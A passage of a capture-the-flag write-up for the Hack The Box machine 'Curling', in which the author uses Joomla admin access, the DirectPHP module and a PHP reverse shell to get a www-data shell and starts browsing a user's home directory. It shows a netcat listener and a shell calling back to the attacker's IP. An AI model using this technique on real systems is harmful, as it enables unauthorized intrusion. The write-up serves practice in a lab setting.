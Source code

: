 We successfully logged into the admin panel. This is probably more promising than figuring out a way to XSS our way in through a blog post. Lets go googling for some Joomla! vulnerabilities or security bulletins. While I found a couple things, the one that was most interesting was a module that allowed for PHP to be executed on the server called [DirectPHP](https://forum.joomla.org/viewtopic.php?t=436618). 

Installing the module was pretty straight forward. After downloading it I went to `Extensions > Manage > Install` and uploaded the addon `.zip` file. We then have to go enable it in the `Extensions > Manage > Manage` menu and enabled it. 

Let's start our listener:

```console
root@apollo:~/htb/Curling# nc -lvnp 7777
listening on [any] 7777 ...
```

From here we need to go to `Content > Article > Add New Article` and create a post with our shell, I chose to use [PenTestMonkey's Stuff](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We should just need to go back to the blog home page and click on that link to execute the code.

```console
root@apollo:~/htb/Curling# nc -lvnp 7777
listening on [any] 7777 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.150] 43874
bash: cannot set terminal process group (1435): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Cool - we've got a low-priv shell as `www-data`. Let's go exploring:

```console
www-data@curling:/var/www/html$ pwd
pwd
/var/www/html
www-data@curling:/var/www/html$ cd /home
cd /home
www-data@curling:/home$ ls
ls
floris
www-data@curling:/home$ cd floris
cd floris
www-data@curling:/home/floris$ ls 
ls
admin-area
password_backup
user.txt
www-data@curling:/home/floris$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@curling:/home/floris$
```
Hmm, we will need to privesc to even get the `user` flag. There are the `admin-area` and `password_backup` files. I will grab those to see what they are and what we can do with them. I will start with `admin-area` because that sounds more interesting in my opinion.
